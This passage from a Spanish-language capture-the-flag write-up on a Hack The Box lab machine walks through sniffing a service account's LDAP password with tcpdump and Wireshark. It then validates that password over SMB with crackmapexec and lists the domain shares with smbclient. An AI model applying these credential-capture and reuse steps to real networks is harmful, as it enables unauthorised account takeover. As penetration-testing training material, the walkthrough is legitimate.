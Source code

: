 Y también recibimos trafico

```bash
❯ tcpdump -i tun0 -w Captura.cap -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
^C14 packets captured
```

Ahora vamos abrir la captura con `wireshark`

```bash
❯ wireshark -r Captura.cap &>/dev/null & disown
[1] 56513
```

Vemos que las credenciales son de `ldap` `1edFg43012!!` esta realizando una `autenticacion`

![](/assets/images/htb-writeup-return/web5.png)

Vamos a ver si las credenciales se reutilizan y podemos ver recursos compartidos por `smb`

```bash
❯ crackmapexec smb 10.129.95.241 -u svc-printer -p '1edFg43012!!'
SMB         10.129.95.241   445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```

Ahora podemos ver los recursos compartidos por `smb`

```bash
❯ smbclient -L //10.129.95.241/ -U svc-printer
Password for [WORKGROUP\svc-printer]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
